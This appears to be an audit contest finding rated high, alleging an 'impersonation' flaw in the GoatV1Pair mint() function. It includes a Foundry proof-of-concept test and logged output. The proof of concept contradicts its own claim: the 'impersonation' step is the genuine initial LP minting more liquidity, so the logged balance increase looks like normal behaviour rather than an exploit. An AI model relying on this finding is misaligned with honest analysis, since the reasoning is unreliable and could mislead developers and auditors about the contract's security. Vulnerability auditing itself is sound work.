 Fierce Foggy Pike

high

# GoatV1Pair Mint Function Vulnerability:Initial LP Balance Impersonation Risk

## Summary
In `GoatV1Pair::mint()` function allows for an impersonation attack where the attacker, by minting liquidity as the initial liquidity provider, can improperly influence the initial LP's fractional balance
## Vulnerability Detail
This comes from the improper update of the initial LP's fractional balance in the `mint` function. When new liquidity is minted, the function fails to properly validate whether the caller is indeed the initial LP or an impersonator. This allows an attacker to mint liquidity in the name of the initial LP, which leads to an unwarranted increase in the initial LP's fractional balance.
## Impact
This is manipulation of liquidity pool parameters. An attacker could exploit this to inflate the fractional balance of the initial LP and this could be used to withdraw more assets than entitled.

## Code Snippet

The issue is found here 

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L160

Here is the POC

```solidity
function testInitialLpInfoUpdate() public {
    GoatTypes.InitParams memory initParams;
    initParams.bootstrapEth = 10e18;
    initParams.virtualEth = 10e18;
    initParams.initialEth = 10e18;
    initParams.initialTokenMatch = 1000e18;

    _mintInitialLiquidity(initParams, users.lp);

    // Ensure the initial LP's information is correctly set
    GoatTypes.InitialLPInfo memory initialLpInfoBefore = pair.getInitialLPInfo();
    console.log("Initial LP Address Before:", address(initialLpInfoBefore.liquidityProvider)); // Logging address
    console.log("Initial LP Fractional Balance Before:", initialLpInfoBefore.fractionalBalance); // Logging fractional balance

    // Attempt to mint liquidity by another user
    _mintLiquidity(10e18, 1000e18, users.bob);

    // Check if the initial LP's information is still the same
    GoatTypes.InitialLPInfo memory initialLpInfoAfter = pair.getInitialLPInfo();   
    console2.log("Initial LP Address After Other User Mint:", address(initialLpInfoAfter.liquidityProvider));
    console.log("Initial LP Fractional Balance After Other User Mint:", initialLpInfoAfter.fractionalBalance);

    // Impersonate the initial LP and mint liquidity
    _mintLiquidity(5e18, 500e18, users.lp);

    // Verify the initial LP's information after impersonation
    GoatTypes.InitialLPInfo memory initialLpInfoAfterImpersonation = pair.getInitialLPInfo();
    console2.log("Initial LP Address After Impersonation:", address(initialLpInfoAfterImpersonation.liquidityProvider));
    console2.log("Initial LP Fractional Balance After Impersonation:", initialLpInfoAfterImpersonation.fractionalBalance);

    // Assertions remain the same
    assertEq(initialLpInfoAfterImpersonation.liquidityProvider, users.lp, "Initial LP's address should remain the same after impersonation attempt");
    assertEq(initialLpInfoAfterImpersonation.fractionalBalance, initialLpInfoBefore.fractionalBalance, "Initial LP's fractional balance should remain unchanged after impersonation attempt");
}
```

Here is the results from the test
```solidity
Logs:
  Initial LP Address Before: 0x44bC268D6f10DfB004c5b9afe91648b1c7c8b6D9
  Initial LP Fractional Balance Before: 12499999999999999750
  Initial LP Address After Other User Mint: 0x44bC268D6f10DfB004c5b9afe91648b1c7c8b6D9
  Initial LP Fractional Balance After Other User Mint: 12499999999999999750
  Initial LP Address After Impersonation: 0x44bC268D6f10DfB004c5b9afe91648b1c7c8b6D9
  Initial LP Fractional Balance After Impersonation: 18749999999999999750
  Error: Initial LP's fractional balance should remain unchanged after impersonation attempt
  Error: a == b not satisfied [uint]
    Expected: 12499999999999999750
      Actual: 18749999999999999750
```
## Tool used

Manual Review

## Recommendation
Use a modifier to check the role or use signatures to verify.
